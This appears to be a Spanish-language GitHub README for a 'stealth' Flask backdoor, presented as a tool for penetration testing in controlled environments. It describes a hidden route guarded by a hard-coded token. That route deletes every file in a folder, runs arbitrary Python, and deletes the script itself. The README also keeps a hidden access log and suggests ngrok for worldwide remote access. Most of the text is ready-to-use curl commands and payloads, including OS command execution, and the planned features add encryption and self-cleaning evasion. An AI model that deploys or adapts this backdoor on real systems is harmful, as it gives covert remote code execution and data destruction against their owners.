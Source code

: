 # 🕵️ Stealth Flask Backdoor


Este microservidor Flask simula una puerta trasera para ejecutar pruebas de penetración y técnicas de evasión en entornos controlados.

## 🚀 Funcionalidades

- ✅ Ruta oculta: `POST /.well-known/assets`
- 🔐 Requiere header de autenticación:  
  `X-Auth-Token: U3VwZXJTZWNyZXQ=`  ← base64("SuperSecret")
- 🎯 Acciones disponibles vía parámetro `act`:
  - `act=borrar` → borra todos los archivos en `./books`
  - `act=ejecutar` → ejecuta código Python arbitrario
  - `act=autodestruir` → borra el script `backdoor.py`
- 📁 Genera un registro oculto en `.syslog` con la IP y actividad

---

## 🧪Payloads útiles (acción: `ejecutar`)

| Payload                                             | Descripción                             |
|-----------------------------------------------------|-----------------------------------------|
| `print("Hola mundo")`                              | Imprime en consola del servidor         |
| `open("flag.txt", "w").write("✅")`                 | Escribe un archivo de texto             |
| `__import__('os').system('ls')`                     | Ejecuta un comando del sistema          |
| `__import__('socket').gethostbyname(...)`           | Obtener la IP del servidor              |
| `__import__('shutil').copy("f", "dest")`            | Copiar archivos                         |


🕵️ Log de Actividad
Todos los accesos exitosos se registran en el archivo .syslog, incluyendo:

log
Copiar
Editar
Registro: 192.168.0.45
Registro: acción ejecutada


🌐 Exposición remota
¿No estás en red pública? Usa ngrok:

bash
Copiar
Editar
ngrok http 5000
Y luego accede desde cualquier parte del mundo vía HTTPS.


---
## 📦 Ejecución

📡 Activación remota (desde otra máquina)
Requisitos:
Agregar el header:
X-Auth-Token: U3VwZXJTZWNyZXQ=
🔥 Ejecutar código Python:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=ejecutar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'open("flag.txt", "w").write("Pwned!")'
```
🧨 Borrar archivos:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=borrar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
🫥 Autodestrucción:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=autodestruir" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
```bash
pip install -r requirements.txt
python backdoor.py
```
Accede desde otro sistema:

```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=script" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'print("Backdoor activada")'
```

---

TODO / Mejoras futuras
 Añadir cifrado AES a los scripts

 Backdoor activada por Redis

 Modos silenciosos de respuesta (stealth logs, autolimpieza)
